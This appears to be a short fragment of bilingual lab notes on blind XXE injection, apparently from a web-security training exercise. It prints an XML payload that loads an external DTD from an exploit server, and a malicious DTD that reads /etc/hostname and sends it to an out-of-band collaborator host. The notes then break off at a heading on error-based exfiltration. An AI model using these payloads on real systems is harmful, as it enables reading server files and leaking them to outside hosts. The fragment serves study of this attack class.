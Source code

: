 - Injection

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY % myReq SYSTEM "https://exploit-0ad60019037d6e5380b8e98b015f0076.exploit-server.net/exploit">%myReq;]>
  <stockCheck>
    <productId>
	    1
	</productId>
	<storeId>
		1
	</storeId>
  </stockCheck>
```

```dtd
<!ENTITY % myFile SYSTEM "file:///etc/hostname">
<!ENTITY % first "<!ENTITY &#x25; second SYSTEM 'https://isemd9fpft0q7818z7zq6gk9h0ntblza.oastify.com/?data=%myFile;'>">

%first;
%second;
```

## XXE ciego para filtrar datos con errores || Exploiting blind XXE to data via error messages

![](/img2/Pasted%20image%2020250816142325.png)

![](/img2/Pasted%20image%2020250816142350.png)

